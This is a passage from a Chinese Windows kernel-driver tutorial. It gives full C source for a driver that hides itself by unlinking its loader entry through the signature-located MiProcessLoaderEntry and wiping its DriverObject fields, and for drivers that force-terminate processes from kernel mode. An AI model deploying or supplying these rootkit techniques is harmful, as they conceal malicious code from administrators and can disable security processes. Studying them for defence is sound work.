当驱动被加载后读者可观察任务管理器，则此时`lyshark.exe`将会被隐藏，如下图所示；



当然此种方式的实现原理仅仅只是在链表中剔除了特定进程，此类隐藏仅仅只是在任务管理器内不可见，且该方法存在一定风险和局限性，不建议未经充分考虑和了解相关知识的用户尝试使用。

### 4.9 内核无痕隐藏自身分析

在笔者前面有一篇文章`《断链隐藏驱动程序自身》`通过摘除驱动的链表实现了断链隐藏自身的目的，但此方法恢复时会触发PG会蓝屏，偶然间在网上找到了一个作者介绍的一种方法，觉得有必要详细分析一下他是如何实现的进程隐藏的，总体来说作者的思路是最终寻找到`MiProcessLoaderEntry`的入口地址，该函数的作用是将驱动信息加入链表和移除链表，运用这个函数即可动态处理驱动的添加和移除问题。

 - MiProcessLoaderEntry(pDriverObject->DriverSection, 1)  添加
 - MiProcessLoaderEntry(pDriverObject->DriverSection, 0)  移除

MiProcessLoaderEntry 是Windows内核中的一个结构体，用于描述系统中加载的进程信息。它通常被称为进程加载器入口（Process Loader Entry），是Windows内核中的一个重要数据结构。当一个新的进程被创建时，内核会为该进程分配一个进程对象（EPROCESS结构体），并为该进程加载相应的可执行文件。在加载可执行文件的过程中，内核会使用MiProcessLoaderEntry结构体来跟踪该进程的加载信息。

MiProcessLoaderEntry 结构体中包含了进程的各种加载信息，如可执行文件的路径、加载偏移量、加载基地址、入口点地址等。此外，它还包含了一些用于调试和安全的信息，如调试信息指针、保护标志等。

需要注意的是，MiProcessLoaderEntry结构体是一个内部结构体，不应该直接访问它。如果需要访问进程的加载信息，可以使用Windows内核提供的API函数，如ZwQueryInformationProcess和NtQueryInformationProcess等函数。

如何找到`MiProcessLoaderEntry`函数入口地址就是下一步的目标，寻找入口可以总结为；

 - 1.寻找`MmUnloadSystemImage`函数地址，可通过`MmGetSystemRoutineAddress`函数得到。
 - 2.在`MmUnloadSystemImage`里面寻找`MiUnloadSystemImage`函数地址。
 - 3.在`MiUnloadSystemImage`里面继续寻找`MiProcessLoaderEntry`即可。

搜索`MmUnloadSystemImage`可定位到`call nt!MiUnloadSystemImage`地址。



搜索`MiUnloadSystemImage`定位到`call nt!MiProcessLoaderEntry`即得到了我们想要的。



根据前面`枚举篇`系列文章，定位这段特征很容易实现，如下是一段参考代码。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

typedef NTSTATUS(__fastcall *MiProcessLoaderEntry)(PVOID pDriverSection, BOOLEAN bLoad);

// 取出指定函数地址
PVOID GetProcAddress(WCHAR *FuncName)
{
    UNICODE_STRING u_FuncName = { 0 };
    PVOID ref = NULL;

    RtlInitUnicodeString(&u_FuncName, FuncName);
    ref = MmGetSystemRoutineAddress(&u_FuncName);

    if (ref != NULL)
    {
        return ref;
    }

    return ref;
}

// 特征定位 MiUnloadSystemImage
ULONG64 GetMiUnloadSystemImageAddress()
{
    // 在MmUnloadSystemImage函数中搜索的Code
    /*
    lyshark.com: kd> uf MmUnloadSystemImage
        fffff801`37943512 83caff          or      edx,0FFFFFFFFh
        fffff801`37943515 488bcf          mov     rcx,rdi
        fffff801`37943518 488bd8          mov     rbx,rax
        fffff801`3794351b e860b4ebff      call    nt!MiUnloadSystemImage (fffff801`377fe980)
    */
    CHAR MmUnloadSystemImage_Code[] = "\x83\xCA\xFF"  // or      edx, 0FFFFFFFFh
        "\x48\x8B\xCF"                                // mov     rcx, rdi
        "\x48\x8B\xD8"                                // mov     rbx, rax
        "\xE8";                                       // call    nt!MiUnloadSystemImage (fffff801`377fe980)

    ULONG_PTR MmUnloadSystemImageAddress = 0;
    ULONG_PTR MiUnloadSystemImageAddress = 0;
    ULONG_PTR StartAddress = 0;

    MmUnloadSystemImageAddress = (ULONG_PTR)GetProcAddress(L"MmUnloadSystemImage");
    if (MmUnloadSystemImageAddress == 0)
    {
        return 0;
    }

    // 在MmUnloadSystemImage中搜索特征码寻找MiUnloadSystemImage
    StartAddress = MmUnloadSystemImageAddress;
    while (StartAddress < MmUnloadSystemImageAddress + 0x500)
    {
        if (memcmp((VOID*)StartAddress, MmUnloadSystemImage_Code, strlen(MmUnloadSystemImage_Code)) == 0)
        {
            // 跳过call之前的指令
            StartAddress += strlen(MmUnloadSystemImage_Code);

            // 取出 MiUnloadSystemImage地址
            MiUnloadSystemImageAddress = *(LONG*)StartAddress + StartAddress + 4;
            break;
        }
        ++StartAddress;
    }

    if (MiUnloadSystemImageAddress != 0)
    {
        return MiUnloadSystemImageAddress;
    }
    return 0;
}

// 特征定位 MiProcessLoaderEntry
MiProcessLoaderEntry GetMiProcessLoaderEntry(ULONG64 StartAddress)
{
    if (StartAddress == 0)
    {
        return NULL;
    }

    while (StartAddress < StartAddress + 0x600)
    {
        // 操作数MiProcessLoaderEntry内存地址是动态变化的
        /*
        lyshark.com: kd> uf MiUnloadSystemImage
            fffff801`377fed19 33d2            xor     edx,edx
            fffff801`377fed1b 488bcb          mov     rcx,rbx
            fffff801`377fed1e e84162b4ff      call    nt!MiProcessLoaderEntry (fffff801`37344f64)
            fffff801`377fed23 8b05d756f7ff    mov     eax,dword ptr [nt!PerfGlobalGroupMask (fffff801`37774400)]
            fffff801`377fed29 a804            test    al,4
            fffff801`377fed2b 7440            je      nt!MiUnloadSystemImage+0x3ed (fffff801`377fed6d)  Branch
            E8 call | 8B 05 mov eax
        */

        // fffff801`377fed1e   | fffff801`377fed23
        // 判断特征 0xE8(call) | 0x8B 0x05(mov eax)
        if (*(UCHAR*)StartAddress == 0xE8 && *(UCHAR *)(StartAddress + 5) == 0x8B && *(UCHAR *)(StartAddress + 6) == 0x05)
        {
            // 跳过一个字节call的E8
            StartAddress++;

            // StartAddress + 1 + 4
            return (MiProcessLoaderEntry)(*(LONG*)StartAddress + StartAddress + 4);
        }
        ++StartAddress;
    }
    return NULL;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    ULONG64 MiUnloadSystemImageAddress = GetMiUnloadSystemImageAddress();
    DbgPrint("MiUnloadSystemImageAddress = %p \n", MiUnloadSystemImageAddress);

    MiProcessLoaderEntry MiProcessLoaderEntryAddress = GetMiProcessLoaderEntry(MiUnloadSystemImageAddress);
    DbgPrint("MiProcessLoaderEntryAddress = %p \n", (ULONG64)MiProcessLoaderEntryAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序，即可得到`MiProcessLoaderEntryAddress`的内存地址。



得到内存地址之后，直接破坏掉自身驱动的入口地址等，即可实现隐藏自身。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

typedef NTSTATUS(*NTQUERYSYSTEMINFORMATION)(
  IN ULONG SystemInformationClass,
  OUT PVOID   SystemInformation,
  IN ULONG_PTR    SystemInformationLength,
  OUT PULONG_PTR  ReturnLength OPTIONAL);

NTSYSAPI NTSTATUS NTAPI ObReferenceObjectByName(
  __in PUNICODE_STRING ObjectName,
  __in ULONG Attributes,
  __in_opt PACCESS_STATE AccessState,
  __in_opt ACCESS_MASK DesiredAccess,
  __in POBJECT_TYPE ObjectType,
  __in KPROCESSOR_MODE AccessMode,
  __inout_opt PVOID ParseContext,
  __out PVOID* Object
  );

typedef struct _SYSTEM_MODULE_INFORMATION
{
  HANDLE Section;
  PVOID MappedBase;
  PVOID Base;
  ULONG Size;
  ULONG Flags;
  USHORT LoadOrderIndex;
  USHORT InitOrderIndex;
  USHORT LoadCount;
  USHORT PathLength;
  CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef struct _LDR_DATA_TABLE_ENTRY
{
  LIST_ENTRY InLoadOrderLinks;
  LIST_ENTRY InMemoryOrderLinks;
  LIST_ENTRY InInitializationOrderLinks;
  PVOID      DllBase;
  PVOID      EntryPoint;
}LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

extern POBJECT_TYPE *IoDriverObjectType;
typedef NTSTATUS(__fastcall *MiProcessLoaderEntry)(PVOID pDriverSection, BOOLEAN bLoad);
ULONG64 MiUnloadSystemImageAddress = 0;

// 取出指定函数地址
PVOID GetProcAddress(WCHAR *FuncName)
{
    UNICODE_STRING u_FuncName = { 0 };
    PVOID ref = NULL;

    RtlInitUnicodeString(&u_FuncName, FuncName);
    ref = MmGetSystemRoutineAddress(&u_FuncName);

    if (ref != NULL)
    {
    return ref;
    }

    return ref;
}

// 特征定位 MiUnloadSystemImage
ULONG64 GetMiUnloadSystemImageAddress()
{
    CHAR MmUnloadSystemImage_Code[] = "\x83\xCA\xFF\x48\x8B\xCF\x48\x8B\xD8\xE8";

    ULONG_PTR MmUnloadSystemImageAddress = 0;
    ULONG_PTR MiUnloadSystemImageAddress = 0;
    ULONG_PTR StartAddress = 0;

    MmUnloadSystemImageAddress = (ULONG_PTR)GetProcAddress(L"MmUnloadSystemImage");
    if (MmUnloadSystemImageAddress == 0)
    {
    return 0;
    }

    // 在MmUnloadSystemImage中搜索特征码寻找MiUnloadSystemImage
    StartAddress = MmUnloadSystemImageAddress;
    while (StartAddress < MmUnloadSystemImageAddress + 0x500)
    {
    if (memcmp((VOID*)StartAddress, MmUnloadSystemImage_Code, strlen(MmUnloadSystemImage_Code)) == 0)
    {
        StartAddress += strlen(MmUnloadSystemImage_Code);
        MiUnloadSystemImageAddress = *(LONG*)StartAddress + StartAddress + 4;
        break;
    }
    ++StartAddress;
    }

    if (MiUnloadSystemImageAddress != 0)
    {
    return MiUnloadSystemImageAddress;
    }
    return 0;
}

// 特征定位 MiProcessLoaderEntry
MiProcessLoaderEntry GetMiProcessLoaderEntry(ULONG64 StartAddress)
{
    if (StartAddress == 0)
    {
    return NULL;
    }

    while (StartAddress < StartAddress + 0x600)
    {
    if (*(UCHAR*)StartAddress == 0xE8 && *(UCHAR *)(StartAddress + 5) == 0x8B && *(UCHAR *)(StartAddress + 6) == 0x05)
    {
        StartAddress++;
        return (MiProcessLoaderEntry)(*(LONG*)StartAddress + StartAddress + 4);
    }
    ++StartAddress;
    }
    return NULL;
}

// 根据驱动名获取驱动对象
BOOLEAN GetDriverObjectByName(PDRIVER_OBJECT *DriverObject, WCHAR *DriverName)
{
    PDRIVER_OBJECT TempObject = NULL;
    UNICODE_STRING u_DriverName = { 0 };
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    RtlInitUnicodeString(&u_DriverName, DriverName);
    Status = ObReferenceObjectByName(&u_DriverName, OBJ_CASE_INSENSITIVE, NULL, 0, *IoDriverObjectType, KernelMode, NULL, &TempObject);
    if (!NT_SUCCESS(Status))
    {
    *DriverObject = NULL;
    return FALSE;
    }

    *DriverObject = TempObject;
    return TRUE;
}

BOOLEAN SupportSEH(PDRIVER_OBJECT DriverObject)
{
    PDRIVER_OBJECT Object = NULL;;
    PLDR_DATA_TABLE_ENTRY LdrEntry = NULL;

    GetDriverObjectByName(&Object, L"\\Driver\\tdx");
    if (Object == NULL)
    {
        return FALSE;
    }

    // 将获取到的驱动对象节点赋值给自身LDR
    LdrEntry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    LdrEntry->DllBase = Object->DriverStart;
    ObDereferenceObject(Object);
    return TRUE;
}

VOID InitInLoadOrderLinks(PLDR_DATA_TABLE_ENTRY LdrEntry)
{
    InitializeListHead(&LdrEntry->InLoadOrderLinks);
    InitializeListHead(&LdrEntry->InMemoryOrderLinks);
}

VOID Reinitialize(PDRIVER_OBJECT DriverObject, PVOID Context, ULONG Count)
{
    MiProcessLoaderEntry m_MiProcessLoaderEntry = NULL;
    ULONG *p = NULL;

    m_MiProcessLoaderEntry = GetMiProcessLoaderEntry(MiUnloadSystemImageAddress);
    if (m_MiProcessLoaderEntry == NULL)
    {
        return;
    }

    SupportSEH(DriverObject);

    m_MiProcessLoaderEntry(DriverObject->DriverSection, 0);
    InitInLoadOrderLinks((PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection);

    // 破坏驱动对象特征
    DriverObject->DriverSection = NULL;
    DriverObject->DriverStart = NULL;
    DriverObject->DriverSize = 0;
    DriverObject->DriverUnload = NULL;
    DriverObject->DriverInit = NULL;
    DriverObject->DeviceObject = NULL;

    DbgPrint("驱动隐藏 \n");
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    MiUnloadSystemImageAddress = GetMiUnloadSystemImageAddress();
    MiProcessLoaderEntry MiProcessLoaderEntryAddress = GetMiProcessLoaderEntry(MiUnloadSystemImageAddress);

    // 无痕隐藏
    IoRegisterDriverReinitialization(Driver, Reinitialize, NULL);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序，让后看到如下输出信息；



### 4.10 内核强制结束进程运行

通常使用`Windows`系统自带的`任务管理器`可以正常地`结束`掉一般`进程`，而某些`特殊的`进程在应用层很难被结束掉，例如某些`系统核心进程`其权限是在`0环`内核态，但有时我们不得不想办法结束掉这些特殊的进程，当然某些正常进程在特殊状态下也会无法被正常结束，此时使用驱动前行在内核态将其结束掉就变得很有用了，驱动结束进程有多种方法。

 - 1.标准方法就是使用`ZwOpenProcess`打开进程获得句柄，然后使用`ZwTerminateProcess`这个内核API实现结束进程，最后使用`ZwClose`关闭句柄。
 - 2.第二种方法，通过动态定位的方式找到`PspTerminateThreadByPointer`这个内核函数地址，然后调用该函数结束掉进程中所有的线程，当线程为空则进程也就消亡了。
 - 3.第三种方法，我将其称作是内存清零法，其核心原理是通过打开进程，得到进程的基址，通过内存填充的方式将对端内存全部置0实现类似于结束的效果。

首先是第一种方法结束进程，封装实现`KillProcess`函数，用户传入`lyshark.exe`进程名，进程内执行`PsGetProcessImageFileName`判断是否是我们要结束的如果是则，调用`ZwOpenProcess`打开进程，并发送`ZwTerminateProcess`终止信号从而正常结束，其核心代码如下所示。

```c
#include <ntifs.h>

NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);

// 根据进程ID返回进程EPROCESS结构体,失败返回NULL
PEPROCESS GetProcessNameByProcessId(HANDLE pid)
{
    PEPROCESS ProcessObj = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    Status = PsLookupProcessByProcessId(pid, &ProcessObj);
    if (NT_SUCCESS(Status))
        return ProcessObj;
    return NULL;
}

// 根据ProcessName获取到进程的PID号
HANDLE GetPidByProcessName(char *ProcessName)
{
    PEPROCESS pCurrentEprocess = NULL;
    HANDLE pid = 0;
    for (int i = 0; i < 1000000000; i += 4)
    {
        pCurrentEprocess = GetProcessNameByProcessId((HANDLE)i);
        if (pCurrentEprocess != NULL)
        {
            pid = PsGetProcessId(pCurrentEprocess);
            if (strstr(PsGetProcessImageFileName(pCurrentEprocess), ProcessName) != NULL)
            {
                ObDereferenceObject(pCurrentEprocess);
                return pid;
            }
            ObDereferenceObject(pCurrentEprocess);
        }
    }
    return (HANDLE)-1;
}

// 传入进程名称,终止掉该进程
BOOLEAN KillProcess(PCHAR ProcessName)
{
    PEPROCESS pCurrentEprocess = NULL;
    HANDLE pid = 0;
    HANDLE Handle = NULL;
    OBJECT_ATTRIBUTES obj;
    CLIENT_ID cid = { 0 };
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    for (int i = 0; i < 10000000; i += 4)
    {
        pCurrentEprocess = GetProcessNameByProcessId((HANDLE)i);
        if (pCurrentEprocess != NULL)
        {
            pid = PsGetProcessId(pCurrentEprocess);

            // 判断当前镜像名称是否是需要结束的进程
            if (strstr(PsGetProcessImageFileName(pCurrentEprocess), ProcessName) != NULL)
            {
                ObDereferenceObject(pCurrentEprocess);

                // 找到后开始结束
                InitializeObjectAttributes(&obj, NULL, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);
                cid.UniqueProcess = (HANDLE)pid;
                cid.UniqueThread = 0;

                // 打开进程
                Status = ZwOpenProcess(&Handle, GENERIC_ALL, &obj, &cid);
                if (NT_SUCCESS(Status))
                {
                    // 发送终止信号
                    ZwTerminateProcess(Handle, 0);
                    ZwClose(Handle);
                }
                ZwClose(Handle);
                return TRUE;
            }
            ObDereferenceObject(pCurrentEprocess);
        }
    }
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    BOOLEAN Retn;
    Retn = KillProcess("lyshark.exe");
    DbgPrint("结束状态: %d \n", Retn);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

我们运行这个驱动，当进程`lyshark.exe`存在时则可以看到结束效果，当然这种方式只是在内核层面调用了结束进程函数，其本质上还是正常结束，只是这种方式权限要大一些仅此而已。



第二种方法，其原理就是将进程内的线程全部结束掉从而让进程自动结束，由于`PspTerminateThreadByPointer`没有被导出，所以我们需要动态的这个内存地址，然后动态调用即可，这个寻找方法可以总结为以下步骤。

 - 1.寻找`PsTerminateSystemThread`函数地址，这个地址可以直接通过`MmGetSystemRoutineAddress`函数得到。
 - 2.在`PsTerminateSystemThread`函数地址内向下扫描特征`e80cb6f6ff`得到`call nt!PspTerminateThreadByPointer`地址。

根据`《内核枚举LoadImage映像回调》`中使用的`SearchMemory`函数实现搜索`PspTerminateThreadByPointer`内存地址。
```c
#include <ntifs.h>

// 得到PspTerminateThreadByPointer内存地址
PVOID PspTerminateThreadByPointer()
{
    UNICODE_STRING ustrFuncName;
    PVOID pAddress = NULL;
    LONG lOffset = 0;
    PVOID pPsTerminateSystemThread = NULL;
    PVOID pPspTerminateThreadByPointer = NULL;

    // 获取 PsTerminateSystemThread 函数地址
    RtlInitUnicodeString(&ustrFuncName, L"PsTerminateSystemThread");
    pPsTerminateSystemThread = MmGetSystemRoutineAddress(&ustrFuncName);
    
    DbgPrint("pPsTerminateSystemThread = 0x%p \n", pPsTerminateSystemThread);
    if (NULL == pPsTerminateSystemThread)
    {
        return 0;
    }

    // 查找 PspTerminateThreadByPointer 函数地址

    /*
    1: kd> uf PsTerminateSystemThread
            nt!PsTerminateSystemThread:
            fffff802`254e6a90 4883ec28        sub     rsp,28h
            fffff802`254e6a94 8bd1            mov     edx,ecx
            fffff802`254e6a96 65488b0c2588010000 mov   rcx,qword ptr gs:[188h]
            fffff802`254e6a9f f7417400040000  test    dword ptr [rcx+74h],400h
            fffff802`254e6aa6 0f8444081100    je      nt!PsTerminateSystemThread+0x110860 (fffff802`255f72f0)  Branch

            nt!PsTerminateSystemThread+0x1c:
            fffff802`254e6aac 41b001          mov     r8b,1
            fffff802`254e6aaf e80cb6f6ff      call    nt!PspTerminateThreadByPointer (fffff802`254520c0)

            nt!PsTerminateSystemThread+0x24:
            fffff802`254e6ab4 4883c428        add     rsp,28h
            fffff802`254e6ab8 c3              ret

            nt!PsTerminateSystemThread+0x110860:
            fffff802`255f72f0 b80d0000c0      mov     eax,0C000000Dh
            fffff802`255f72f5 e9baf7eeff      jmp     nt!PsTerminateSystemThread+0x24 (fffff802`254e6ab4)  Branch
    */

    UCHAR pSpecialData[50] = { 0 };
    ULONG ulSpecialDataSize = 0;

    // fffff802`254e6aaf e80cb6f6ff      call    nt!PspTerminateThreadByPointer (fffff802`254520c0)
    pSpecialData[0] = 0xE8;
    ulSpecialDataSize = 1;

    // 搜索地址 PsTerminateSystemThread --> PsTerminateSystemThread + 0xff 查找 e80cb6f6ff
    pAddress = SearchMemory(pPsTerminateSystemThread, (PVOID)((PUCHAR)pPsTerminateSystemThread + 0xFF), pSpecialData, ulSpecialDataSize);
    if (NULL == pAddress)
    {
        return 0;
    }

    // 先获取偏移,再计算地址
    lOffset = *(PLONG)pAddress;
    pPspTerminateThreadByPointer = (PVOID)((PUCHAR)pAddress + sizeof(LONG) + lOffset);
    if (NULL == pPspTerminateThreadByPointer)
    {
        return 0;
    }

    return pPspTerminateThreadByPointer;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PVOID address = PspTerminateThreadByPointer();

    DbgPrint("PspTerminateThreadByPointer = 0x%p \n", address);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序，首先得到`PspTerminateThreadByPointer`的内存地址，效果如下。



得到内存地址以后直接将地址`typedef`转为指针函数，调用并批量结束进程内的线程即可。
```c
#include <ntifs.h>

typedef NTSTATUS(__fastcall *PSPTERMINATETHREADBYPOINTER) (PETHREAD pEThread, NTSTATUS ntExitCode, BOOLEAN bDirectTerminate);

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PVOID pPspTerminateThreadByPointerAddress = 0xFFFFF802254520C0;
    HANDLE hProcessId = 6956;

    PEPROCESS pEProcess = NULL;
    PETHREAD pEThread = NULL;
    PEPROCESS pThreadEProcess = NULL;
    NTSTATUS status = STATUS_SUCCESS;
    ULONG i = 0;

    // 获取结束进程的进程结构对象EPROCESS
    status = PsLookupProcessByProcessId(hProcessId, &pEProcess);
    if (!NT_SUCCESS(status))
    {
        return status;
    }
    // 遍历所有线程, 并结束所有指定进程的线程
    for (i = 4; i < 0x80000; i = i + 4)
    {
        status = PsLookupThreadByThreadId((HANDLE)i, &pEThread);
        if (NT_SUCCESS(status))
        {
            // 获取线程对应的进程结构对象
            pThreadEProcess = PsGetThreadProcess(pEThread);

            // 结束进程中的线程
            if (pEProcess == pThreadEProcess)
            {
                ((PSPTERMINATETHREADBYPOINTER)pPspTerminateThreadByPointerAddress)(pEThread, 0, 1);
                DbgPrint("结束线程: %d \n", i);
            }
            ObDereferenceObject(pEThread);
        }
    }
    ObDereferenceObject(pEProcess);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

循环结束进程`6956`内的所有线程信息，效果如下；




## 第五篇：内核模块与钩子技术

本篇文章将重点讨论内核模块开发中的一些关键技术。我们将介绍如何判断驱动的加载状态，获取ntoskrnl模块基址以及应用层模块基址。我们还将探讨如何通过PEB获取进程参数，以及一些高级技术，如断链隐藏进程技术，特征码搜索定位技术，LDE引擎计算汇编长度，InlineHook挂钩与摘除钩子技术，以及取模块函数地址技术。

我们将首先介绍如何判断驱动的加载状态。这是一项非常重要的技术，因为我们需要确保我们的驱动已经成功加载并运行。接下来，我们将介绍如何获取ntoskrnl模块基址和应用层模块基址。这些信息对于开发内核模块非常重要。然后，我们将探讨如何通过PEB获取进程参数。这是一个非常有用的技术，因为我们可以通过这种方式获取到一些有关进程的有用信息。

接下来，我们将讨论一些高级技术。断链隐藏进程技术是一项非常有用的技术，可以帮助我们在系统中隐藏进程。特征码搜索定位技术则可以帮助我们快速定位代码中的特定模式。LDE引擎计算汇编长度技术可以帮助我们计算出汇编代码的长度，这对于一些高级技术非常有用。InlineHook挂钩与摘除钩子技术可以帮助我们监控和修改系统中的函数调用。最后，我们将介绍取模块函数地址技术，这是一个非常重要的技术，因为它可以帮助我们在运行时动态地调用模块中的函数。

本文将为读者提供深入了解内核模块开发的基本技术和高级技术。通过学习本文，读者将能够更好地理解内核模块开发，并且能够在实际开发中使用这些技术。

### 5.1 内核判断驱动加载状态

在驱动开发中我们有时需要得到驱动自身是否被加载成功的状态，这个功能看似没啥用实际上在某些特殊场景中还是需要的，如下代码实现了判断当前驱动是否加载成功，如果加载成功, 则输出该驱动的详细路径信息。

该功能实现的核心函数是`NtQuerySystemInformation`这是一个微软未公开的函数，也没有文档化，不过我们仍然可以通过动态指针的方式调用到它，该函数可以查询到很多系统信息状态，首先需要定义一个指针。
```c
typedef NTSTATUS(*NTQUERYSYSTEMINFORMATION)(
IN ULONG SystemInformationClass,
OUT PVOID   SystemInformation,
IN ULONG_PTR    SystemInformationLength,
OUT PULONG_PTR  ReturnLength OPTIONAL);
```
其次还需要一个`SYSTEM_MODULE_INFORMATION`该结构内可以得到模块入口信息模块名称等，调用`NtQuerySystemInformation`数据会被格式化为`SYSTEM_MODULE_INFORMATION`方便调用。
```c
typedef struct _SYSTEM_MODULE_INFORMATION {
    HANDLE Section;
    PVOID MappedBase;
    PVOID Base;
    ULONG Size;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT PathLength;
    CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;
```
最后是`SYSTEM_INFORMATION_CLASS`该结构同样是一个未文档化的结构体，本此代码中需要用到的枚举类型是`SystemModuleInformation`其他类型也放这里后期做参考用。
```c
typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemBasicInformation = 0x0,
    SystemProcessorInformation = 0x1,
    SystemPerformanceInformation = 0x2,
    SystemTimeOfDayInformation = 0x3,
    SystemPathInformation = 0x4,
    SystemProcessInformation = 0x5,
    SystemCallCountInformation = 0x6,
    SystemDeviceInformation = 0x7,
    SystemProcessorPerformanceInformation = 0x8,
    SystemFlagsInformation = 0x9,
    SystemCallTimeInformation = 0xa,
    SystemModuleInformation = 0xb,
    SystemLocksInformation = 0xc,
    SystemStackTraceInformation = 0xd,
    SystemPagedPoolInformation = 0xe,
    SystemNonPagedPoolInformation = 0xf,
    SystemHandleInformation = 0x10,
    SystemObjectInformation = 0x11,
    SystemPageFileInformation = 0x12,
    SystemVdmInstemulInformation = 0x13,
    SystemVdmBopInformation = 0x14,
    SystemFileCacheInformation = 0x15,
    SystemPoolTagInformation = 0x16,
    SystemInterruptInformation = 0x17,
    SystemDpcBehaviorInformation = 0x18,
    SystemFullMemoryInformation = 0x19,
    SystemLoadGdiDriverInformation = 0x1a,
    SystemUnloadGdiDriverInformation = 0x1b,
    SystemTimeAdjustmentInformation = 0x1c,
    SystemSummaryMemoryInformation = 0x1d,
    SystemMirrorMemoryInformation = 0x1e,
    SystemPerformanceTraceInformation = 0x1f,
    SystemObsolete0 = 0x20,
    SystemExceptionInformation = 0x21,
    SystemCrashDumpStateInformation = 0x22,
    SystemKernelDebuggerInformation = 0x23,
    SystemContextSwitchInformation = 0x24,
    SystemRegistryQuotaInformation = 0x25,
    SystemExtendServiceTableInformation = 0x26,
    SystemPrioritySeperation = 0x27,
    SystemVerifierAddDriverInformation = 0x28,
    SystemVerifierRemoveDriverInformation = 0x29,
    SystemProcessorIdleInformation = 0x2a,
    SystemLegacyDriverInformation = 0x2b,
    SystemCurrentTimeZoneInformation = 0x2c,
    SystemLookasideInformation = 0x2d,
    SystemTimeSlipNotification = 0x2e,
    SystemSessionCreate = 0x2f,
    SystemSessionDetach = 0x30,
    SystemSessionInformation = 0x31,
    SystemRangeStartInformation = 0x32,
    SystemVerifierInformation = 0x33,
    SystemVerifierThunkExtend = 0x34,
    SystemSessionProcessInformation = 0x35,
    SystemLoadGdiDriverInSystemSpace = 0x36,
    SystemNumaProcessorMap = 0x37,
    SystemPrefetcherInformation = 0x38,
    SystemExtendedProcessInformation = 0x39,
    SystemRecommendedSharedDataAlignment = 0x3a,
    SystemComPlusPackage = 0x3b,
    SystemNumaAvailableMemory = 0x3c,
    SystemProcessorPowerInformation = 0x3d,
    SystemEmulationBasicInformation = 0x3e,
    SystemEmulationProcessorInformation = 0x3f,
    SystemExtendedHandleInformation = 0x40,
    SystemLostDelayedWriteInformation = 0x41,
    SystemBigPoolInformation = 0x42,
    SystemSessionPoolTagInformation = 0x43,
    SystemSessionMappedViewInformation = 0x44,
    SystemHotpatchInformation = 0x45,
    SystemObjectSecurityMode = 0x46,
    SystemWatchdogTimerHandler = 0x47,
    SystemWatchdogTimerInformation = 0x48,
    SystemLogicalProcessorInformation = 0x49,
    SystemWow64SharedInformationObsolete = 0x4a,
    SystemRegisterFirmwareTableInformationHandler = 0x4b,
    SystemFirmwareTableInformation = 0x4c,
    SystemModuleInformationEx = 0x4d,
    SystemVerifierTriageInformation = 0x4e,
    SystemSuperfetchInformation = 0x4f,
    SystemMemoryListInformation = 0x50,
    SystemFileCacheInformationEx = 0x51,
    SystemThreadPriorityClientIdInformation = 0x52,
    SystemProcessorIdleCycleTimeInformation = 0x53,
    SystemVerifierCancellationInformation = 0x54,
    SystemProcessorPowerInformationEx = 0x55,
    SystemRefTraceInformation = 0x56,
    SystemSpecialPoolInformation = 0x57,
    SystemProcessIdInformation = 0x58,
    SystemErrorPortInformation = 0x59,
    SystemBootEnvironmentInformation = 0x5a,
    SystemHypervisorInformation = 0x5b,
    SystemVerifierInformationEx = 0x5c,
    SystemTimeZoneInformation = 0x5d,
    SystemImageFileExecutionOptionsInformation = 0x5e,
    SystemCoverageInformation = 0x5f,
    SystemPrefetchPatchInformation = 0x60,
    SystemVerifierFaultsInformation = 0x61,
    SystemSystemPartitionInformation = 0x62,
    SystemSystemDiskInformation = 0x63,
    SystemProcessorPerformanceDistribution = 0x64,
    SystemNumaProximityNodeInformation = 0x65,
    SystemDynamicTimeZoneInformation = 0x66,
    SystemCodeIntegrityInformation = 0x67,
    SystemProcessorMicrocodeUpdateInformation = 0x68,
    SystemProcessorBrandString = 0x69,
    SystemVirtualAddressInformation = 0x6a,
    SystemLogicalProcessorAndGroupInformation = 0x6b,
    SystemProcessorCycleTimeInformation = 0x6c,
    SystemStoreInformation = 0x6d,
    SystemRegistryAppendString = 0x6e,
    SystemAitSamplingValue = 0x6f,
